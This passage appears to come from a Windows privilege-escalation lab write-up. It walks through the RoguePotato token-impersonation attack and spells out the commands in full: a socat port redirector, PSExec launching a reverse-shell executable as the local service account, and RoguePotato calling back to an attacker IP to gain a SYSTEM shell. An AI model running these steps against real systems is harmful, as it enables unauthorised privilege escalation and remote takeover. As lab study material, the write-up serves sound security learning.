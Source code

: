 
Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows:

`sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.254.17:9999`

Start a listener on Kali port 4444. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:

`C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`

Start another listener on Kali. Generate another reverse shell on other port 4445

Now, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

`C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999`

The technique is called “**_Token Impersonation_**” for that we need **SeImpersonatePrivilege** or **SeAssignPrimaryTokenPrivilege.**

Both of the privileges should be present/available irrespective of enabled/disabled.

![](https://miro.medium.com/v2/resize:fit:1050/1*qD85Ok_7aNYlEuPNcLKSww.png)